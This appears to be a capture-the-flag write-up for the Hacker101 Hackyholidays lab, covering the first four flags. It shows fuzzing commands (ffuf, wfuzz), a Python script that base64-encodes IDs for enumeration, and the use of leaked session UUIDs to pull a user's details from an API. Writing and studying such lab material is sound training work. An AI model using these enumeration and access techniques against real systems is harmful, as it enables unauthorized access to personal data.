 # Hackyholidays CTF

## Description
This write up will show how to solve the CTF for "Hackyholidays CTF"

**Difficulty:** Moderate

## Solution 1st flag
Fuzzing for files and directories, I get the following result:</br>
```
assets
favicon.ico
forum
robots.txt
```
When going to `https://c7e947b150b633c436c698e00271600a.ctf.hacker101.com/robots.txt`, it will show the first flag.</br>

## Solution 2nd flag
When go to robots.txt, besides the flag, it shows another hidden directory: `/s3cr3t-ar3a`</br>
Going to `https://c7e947b150b633c436c698e00271600a.ctf.hacker101.com/s3cr3t-ar3a`, it will show the page has moved.</br>
In Burp it doesn't show, but in Elements inspector, it shows the flag.</br>

## Solution 3rd flag
In `/s3cr3t-ar3a`, it also shows a next-page `apps-home`</br>
In `/apps-home`, it shows the boxes of all the different challenges:</br>
```
3 /people-rater: The grinch likes to keep lists of all the people he hates. This year he's gone digital but there might be a record that doesn't belong!
4 /swag-shop: Get your Grinch Merch! Try and find a way to pull the Grinch's personal details from the online shop.
5 /secure-login: Try and find a way past the login page to get to the secret area.
6 /my-diary: Hackers! It looks like the Grinch has released his Diary on Grinch Networks. We know he has an upcoming event but he hasn't posted it on his calendar. Can you hack his diary and find out what it is?
7 /hate-mail-generator: Sending letters is so slow! Now the grinch sends his hate mail by email campaigns! Try and find the hidden flag!
8 /forum: The Grinch thought it might be a good idea to start a forum but nobody really wants to chat to him. He keeps his best posts in the Admin section but you'll need a valid login to access that!
9 /evil-quiz: Just how evil are you? Take the quiz and see! Just don't go poking around the admin area!
10 /signup-manager: You've made it this far! The grinch is recruiting for his army to ruin the holidays but they're very picky on who they let in!
```
Looking at `/people-rater`, it shows a list of people. When clicked on a person it will show a Javascript alert with the Grinch's opinion of that person.</br>
When inspecting the Javascript code, it refers to `/entry/?id=` + the data-id.</br>
The id's seem to be base64 encoded. Hence, first I decoded one example to understand what the encoded string contains: `{"id":1}`</br>
I had a list of 1000 numbers, hence I created a Python script to use that list to create a list in the above format:
```
import base64

# Read numbers from file
with open('1000_numbers.txt', 'r') as file:
    numbers = [int(line.strip()) for line in file]

# Convert numbers to base64
base64_list = [base64.b64encode((str('{"id":') + str(num) + str('}')).encode()).decode() for num in numbers]

# Save base64 representations to file
with open('1000_numbers_base64.txt', 'w') as output_file:
    for base64_num in base64_list:
        output_file.write(base64_num + '\n')
```
Once I had the list, I fuzz the id's, with the following result:</br>
```
eyJpZCI6OH0=            [Status: 200, Size: 62, Words: 2, Lines: 1]
eyJpZCI6M30=            [Status: 200, Size: 66, Words: 2, Lines: 1]
eyJpZCI6MTV9            [Status: 200, Size: 62, Words: 2, Lines: 1]
eyJpZCI6Nn0=            [Status: 200, Size: 68, Words: 2, Lines: 1]
eyJpZCI6Mn0=            [Status: 200, Size: 57, Words: 2, Lines: 1]
eyJpZCI6MTF9            [Status: 200, Size: 69, Words: 2, Lines: 1]
eyJpZCI6MTN9            [Status: 200, Size: 62, Words: 2, Lines: 1]
eyJpZCI6N30=            [Status: 200, Size: 66, Words: 2, Lines: 1]
eyJpZCI6NX0=            [Status: 200, Size: 63, Words: 2, Lines: 1]
eyJpZCI6MTB9            [Status: 200, Size: 66, Words: 2, Lines: 1]
eyJpZCI6NH0=            [Status: 200, Size: 62, Words: 2, Lines: 1]
eyJpZCI6MTd9            [Status: 200, Size: 64, Words: 2, Lines: 1]
eyJpZCI6MTR9            [Status: 200, Size: 58, Words: 2, Lines: 1]
eyJpZCI6MTJ9            [Status: 200, Size: 59, Words: 2, Lines: 1]
eyJpZCI6MX0=            [Status: 200, Size: 169, Words: 6, Lines: 1]
eyJpZCI6OX0=            [Status: 200, Size: 66, Words: 2, Lines: 1]
eyJpZCI6MTZ9            [Status: 200, Size: 62, Words: 2, Lines: 1]
```
One line item stands out with the size: `eyJpZCI6MX0=`</br>
Going to `/people-rater/entry/?id=eyJpZCI6MX0=` it will show the flag.</br>

## Solution 4th flag
The next challenge is the `/swag-shop` to try and find the Grinch's personal details.</br>
Checking the source code, it looked like there are api's, f.e. `/api/stock`.</br>
Fuzz to see if there are other api's: `ffuf -w api-endpoints-res.txt -u https://ca184d43d40fce19e231bfb1b49700b2.ctf.hacker101.com/swag-shop/api/FUZZ -fc 404`</br>
This resulted in the following:</br>
```
sessions
?:
user
```
`sessions` returns a list of sessions.</br>
`user` returns an error: `{"error":"Missing required fields"}`, hence we might need to provide more details.</br>
Fuzz for the required fields `wfuzz --hc=302,404 zfile,burp-parameter-names.txt https://ca184d43d40fce19e231bfb1b49700b2.ctf.hacker101.com/swag-shop/api/user/?FUZZ=1`</br>
The required field is: `uuid`:</br>
```
000006194:   404        0 L      5 W        40 Ch       "uuid"
```

uuid=1 however, is an invalid uuid, hence look at the sessions.</br>
They all seemed to be encoded with base64.</br>
When pasting all of it in cyberchef.io, it showed the following:</br>
```
{"user":null,"cookie":"YzVmNTJiYTNkOWFlYTY2YjA1ZTY1NDBlNmI0YmZjMmNmZGYzMzg1MWJkZDcyMzY0ZTFlYjdmNDY3NDkzNzIwMGNiZjNhMjQ3Y2RmY2E2N2FmMzdjM2I0ZWNlZTVkM2VkNzU3MTUwYjdkYzkyNWI4Y2I3ZWZiNjk2N2NjOTk0MjU="}{"user":null,"cookie":"ZjM2MzNjM2JkZGUyMzVmMmY2ZjcxNjdlNDNmZjQwZTlmY2RhNjYxNWM5Y2Y1ZjY2ODU3NjkxMTQ2Nzk0ZmIxOWZhN2ZhZjg0Y2E5Nzk1NTQ2MzMzZTc0MWJlMzVhZDA0MDUwYmQ3NDlmZTE4MmNkMjMxMzU0MWRlMTJhNWYzOGQ="}
{"user":"C7DCCE-0E0DAB-B20226-FC92EA-1B9043","cookie":"NDU0ODI5MmY3ZDY2MjRiMWE0MmY3NGQxMWE0ODMxMzg2MGE1YWRhMTc0YjhkYWE3MzU1MjZjNDg5MDQ2Y2JhYjY3YTFhY2Q3YjBmYTk4N2Q5ZWQ5MWQ5OWFkNWE2MjIyZmZjMzZjMDQ3ODk5ZmI4ZjZjOWU0OGJhMjIwNmVkMTY="}{"user":null,"cookie":"MDRmYTBhN2FiNjY5MGFlOWFmYTE4ZjE2N2JjZmYzZWJkOTRlOGYwMjI1OGIyNjM1ODU0Njc2YTdlZTM4MzFiM2I1MTUzMzViMjFhYzVkMTc4ODE3OGM4Y2JlOTk4MjJlMDI2YjQzZDQxMGNmNTg1ODQxZjBmODBmZWQxZmE1YmE="}{"user":null,"cookie":"M2Q2MDIzNDg5MWE0N2M3NDJmNTIyNGM3NWUxYWQ0NDRlZWI3MTg4MjI3ZGRkMTllZTM2ZDkxMGVlNWEwNmZiZWFkZjZhODg4MDY3ODlmZGRhYTM1Y2IyMGVhMjA1NjdiNDFjYzBhMWQ4NDU1MDc4NDE1YmI5YTJjODBkMjFmN2Y="}{"user":null,"cookie":"MWY3MTAzMTBjZGY4ZGMwYjI3Zjk2ZmYzMWJlMWEyZTg1YzE0MmZlZjMwYmJjZmQ4ZTU0Y2YxYzVmZTM1N2Q1ODY2YjFkZmFiNmI5ZjI1M2M2MDViNjA0ZjFjNDVkNTQ4N2U2ODdiNTJlMmFiMTExODA4MjU2MzkxZWNhNjFkNmU="}{"user":null,"cookie":"MDM4YzhiN2Q3MmY0YjU2M2FkZmFlNDMwMTI5MjEyODhlNGFkMmI5OTcyMDlkNTJhZTc4YjUxZjIzN2Q4NmRjNjg2NmU1MzVlOWEzOTE5NWYyOTcwNmJlZDIyNDgyMTA5ZDA1OTliMTYyNDczNjFkZmU0MTgxYWEwMDU1ZWNhNzQ="}{"user":null,"cookie":"OGI3N2ExOGVjNzM1ZWVmNTk2ZjNkZjIwM2ZjYzdjMWNhODg4NDhhODRmNjI0NDRjZTdlZTg0ZTUwNzZmZDdkYTJjN2IyODY5YjcxZmI5ZGRiYTgzZjhiZDViOWZjMTVlZDgzMTBkNzNmODI0OTM5ZDM3Y2JjZmY4NzEyOGE3NTM="}
```
There is 1 user with an active session, user: `C7DCCE-0E0DAB-B20226-FC92EA-1B9043`</br>

Let's use this value as a uuid.</br>
Going to `https://ca184d43d40fce19e231bfb1b49700b2.ctf.hacker101.com/swag-shop/api/user/?uuid=C7DCCE-0E0DAB-B20226-FC92EA-1B9043` will show the details of the Grinch and the flag.</br>

















